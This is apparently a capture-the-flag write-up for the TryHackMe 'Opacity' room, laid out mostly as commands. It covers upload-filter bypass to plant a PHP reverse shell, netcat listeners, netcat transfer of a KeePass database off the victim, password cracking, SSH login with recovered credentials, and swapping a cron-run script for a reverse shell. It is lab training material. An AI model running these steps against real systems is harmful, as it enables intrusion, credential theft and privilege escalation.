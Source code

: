 # Opacity

**Room Link:** [https://tryhackme.com/room/opacity](https://tryhackme.com/room/opacity)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

Found this page, I tried different extensions but it looks like it only accepts extentsions that images uses such as .jpg and .png

<figure><img src="../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

<figure><img src="../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://$KALI:81/php-reverse-shell.php#.jpg
```

<figure><img src="../../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



##

### Transfer file

In /opt we find a keepass file so I transfered back to Kali to try to crack it

<figure><img src="../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

**Kali(receiving)**

```
nc -l -p 1234 > dataset.kdbx
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < dataset.kdbx
```



### Crack KeePass

**Kali**

```
/opt/john/keepass2john dataset.kdbx > johnkeepass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt johnkeepass.txt 
```

<figure><img src="../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
keepassx dataset.kdbx 
Password: 741852963
```

<figure><img src="../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
ssh sysadmin@$VICTIM
Password: Cl0udP4ss40p4city#8700
```

<figure><img src="../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32
```



<figure><img src="../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

The script calls backup.inc.php in the lib folder, we can't edit this file but we can delete it and replace it so I copied the same php reverse shell script that was used before and replaced backup. After that I just waited until the script ran on its own.

**Kali #1**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
rm -f backup.inc.php
wget http://10.10.215.36:81/php-reverse-shell.php 
cp php-reverse-shell.php backup.inc.php
```

**Kali #2**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>





































